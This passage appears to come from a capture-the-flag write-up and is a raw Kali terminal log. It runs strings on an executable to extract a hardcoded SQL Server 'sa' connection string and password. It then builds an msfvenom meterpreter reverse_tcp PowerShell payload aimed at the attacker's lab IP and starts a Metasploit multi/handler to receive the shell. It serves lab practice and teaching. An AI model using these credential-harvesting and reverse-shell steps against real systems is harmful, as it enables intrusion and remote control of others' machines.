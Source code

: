 root@kali:~# strings tester.exe

[...]

2$2,242<2D2L2T2\2d2l2t2|2  
3$3,343<3D3L3T3\3d3l3t3|3  
4$4,444<4D4L4T4\4d4l4t4|4  
5$5,545<5D5L5T5\5d5l5t5|5  
6$6,646<6D6L6T6\6d6l6t6|6  
7$7,747<7D7L7T7\7d7l7t7|7  
8$8,848<8D8L8T8\8d8l8t8|8  
9 9(90989@9H9P9X9`9h9p9x9  
: :(:0:8:@:H:P:X:`:h:p:x:  
; ;(;0;8;@;H;P;X;`;h;p;x;  
< <(<0<8<@<H<P<X<`<h<p<x<  
= =(=0=8=@=H=P=X=`=h=p=x=  
> >(>0>8>@>H>P>X>`>h>p>x>  
? ?(?0?8?@?H?P?X?`?h?p?x?  
343D3H3X3\3`3h3  
404@4D4H4L4T4l4|4  
5,5054585<5@5H5`5p5t5  
6 6$6(6,646L6\6`6p6t6x6  
7 7(7@7P7T7d7h7l7p7t7|7

[...]

root@kali:~# strings tester.exe | grep "SQL"  
SQLSTATE:  
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

root@kali:~# ifconfig tun0  
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500  
inet 10.10.14.64 netmask 255.255.254.0 destination 10.10.14.64  
inet6 fe80::fb61:823a:e66a:4967 prefixlen 64 scopeid 0x20<link>  
inet6 dead:beef:2::103e prefixlen 64 scopeid 0x0<global>  
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 100 (UNSPEC)  
RX packets 6424 bytes 6327559 (6.0 MiB)  
RX errors 0 dropped 0 overruns 0 frame 0  
TX packets 6995 bytes 545347 (532.5 KiB)  
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.64 LPORT=4444 -f psh-reflection -o payload.ps1  
No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
No Arch selected, selecting Arch: x64 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 510 bytes  
Final size of psh-reflection file: 2776 bytes  
Saved as: payload.ps1

root@kali:~# msfconsole

msf > use exploit/multi/handler  
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp  
payload => windows/x64/meterpreter/reverse_tcp

